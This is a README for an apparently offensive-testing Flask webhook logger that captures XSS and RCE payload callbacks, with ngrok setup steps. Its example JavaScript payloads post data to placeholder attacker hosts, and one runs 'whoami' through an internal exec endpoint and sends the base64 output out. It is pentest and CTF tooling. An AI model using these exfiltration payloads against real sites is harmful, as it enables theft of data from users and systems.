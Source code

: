 # Webhook Logger with Auto-Refresh Log Viewer

This Flask app acts as a simple webhook endpoint for logging incoming HTTP requests — perfect for XSS, RCE, CSRF payload capture during pentests or CTFs.

It provides:
- `/log` – accepts POST/GET data and logs it
- `/view` – a responsive, scrollable web UI to view logs (auto-refreshes every 5s)

---

## Features

- Logs stored in `logs/payloads.log`
- Auto-refresh every 5 seconds
- Scrollable UI to handle long logs
- CORS-compatible
- Great for XSS/RCE exfil testing

---

## Requirements

- Python 3.x
- Flask

Install with:

```bash
pip install flask flask-cors
```

---

## Usage

```bash
python webhook.py
```

- Webhook POST endpoint: [http://localhost:8080/log](http://localhost:8080/log)
- Log viewer UI: [http://localhost:8080/view](http://localhost:8080/view)

---

## Remote Access via Ngrok (Expose to Internet)

To expose your local Flask server publicly using Ngrok:

```bash
docker run --rm -it --network=host -e NGROK_AUTHTOKEN=Your-AUth-Token ngrok/ngrok http 8080
```

Then use the generated Ngrok URL in your XSS payloads like:

```javascript
fetch("https://your-ngrok-url.ngrok-free.app/log", {
  method: "POST",
  body: "XSS triggered!"
});
```

---

## Example Payload

```javascript
fetch("http://your-server:8080/log", {
  method: "POST",
  body: "XSS triggered!"
});
```

Or exfil output from RCE:

```javascript
fetch("http://127.0.0.1:9000/internal/exec", {
  method: "POST",
  body: "whoami"
})
.then(r => r.text())
.then(t => fetch("https://your-ngrok-url.ngrok-free.app/log", {
  method: "POST",
  body: btoa(t)
}));
```

---

## Log File

All data is saved in:
```
logs/payloads.log
```

---

## Notes

- You can tunnel this using `ngrok` to receive data from remote browsers.
- Default port is `8080`, change as needed in `app.run()`.

---

## Author

**w01f**

Custom-built for payload exfiltration labs, CTF chains, and Red Team automation.